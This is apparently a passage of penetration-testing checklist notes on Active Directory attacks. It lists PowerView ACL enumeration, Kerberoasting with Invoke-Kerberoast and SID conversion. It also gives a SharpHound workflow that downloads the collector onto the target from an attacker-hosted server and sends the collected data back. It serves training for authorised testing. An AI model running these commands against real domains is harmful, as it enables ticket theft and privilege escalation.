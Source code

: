 - [ ] List ACLs for group (E.g., Sales Department) on the Target Machine
```powershell
Get-ObjectAcl -Identity "Sales Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

- [ ] List object ACLs in the current (or specified) domain with modification rights set to non-built in objects on the Target Machine
```powershell
Find-InterestingDomainAcl
```
### Kerberoasting
- [ ] Request service tickets for kerberoastable accounts on the Target Machine
```
Invoke-Kerberoast
```
### Converting SIDs
- [ ] Convert SID into name on the Target Machine
```powershell
Convert-SidToName S-1-5-21-1269873700-690595805-1743818869-1140
```
```powershell
"S-1-5-21-1269873700-690595805-1743818869-1140","S-1-5-21-1269873700-690595805-1743818869-1069","S-1-5-32-548","S-1-5-18","S-1-5-21-1269873700-690595805-1743818869-1169" | Convert-SidToName
```

## SharpHound

- [ ] Download and serve `SharpHound.exe` on your Kali Machine
```
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe
python3 -m http.server 80
```
- `SharpHound.ps1` didn't work as well

- [ ] Use the iwr cmdlet to download `SharpHound.exe` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/SharpHound.exe -Outfile SharpHound.exe
```

- [ ] Run `SharpHound.exe` on the Target Machine
```
./SharpHound.exe --CollectionMethods All
```

- [ ] Transfer the `XXXXXXXXXXXXXX_BloodHound.zip` back to your Kali Machine

- [ ] Start `neo4j` database and bloodhound on your Kali Machine
```
sudo neo4j start
bloodhound
```

- [ ] Use Upload Data function on the right side of the GUI to upload the zip file on your Kali Machine
